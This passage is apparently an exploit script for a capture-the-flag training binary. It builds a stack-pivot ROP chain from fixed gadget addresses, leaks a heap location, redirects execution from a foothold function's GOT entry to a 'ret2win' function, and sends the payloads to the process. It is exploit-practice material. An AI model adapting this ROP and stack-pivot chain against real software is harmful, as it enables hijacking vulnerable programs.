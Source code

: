 ```Python

# pop rax
stack_smash += p64(0x04009bb)

# the RAX binary
# I need to be interacting with the binary here by parsing out the heap loc
pivot_loc = int(first_out.split("\n")[4].split()[-1], 16)
stack_smash += p64(pivot_loc)

# exchange rsp and rax
stack_smash += p64(0x04009bd)

stack_smash += back_junk

################ create the payload ####################
#Fill up the buffer and the base pointer

# call the foothold function
payload = p64(0x00400720)

# pop rax off with the value of the location of the got for the foothold func
payload += p64(0x04009bb)
payload += p64(0x601040)

# mov the value in the got into rax
payload += p64(0x4009c0)

# place the offset from foothold to ret2win in rbp
## pop rbp
payload += p64(0x004007c8)
## offset to place in it
payload += p64(0xa81-0x96a)

# add the offset to rax
payload += p64(0x04009c4)

# jump to rax
payload += p64(0x04007c1)

# print("The payload is:")
# print(payload)
print("Payload size is:" + str(len(payload)))
input("Hit enter to apptempt exploit")

print(io.clean(0.5).decode("utf-8"))
io.send(payload)
print(io.clean(0.5).decode("utf-8"))
io.send(stack_smash)
io.send(payload)
input("exploit sent hit enter to end")

print(io.clean(0.5).decode("utf-8"))
sleep(1)

f = open('./payload', 'wb')
f.write(payload)
f.close()

```
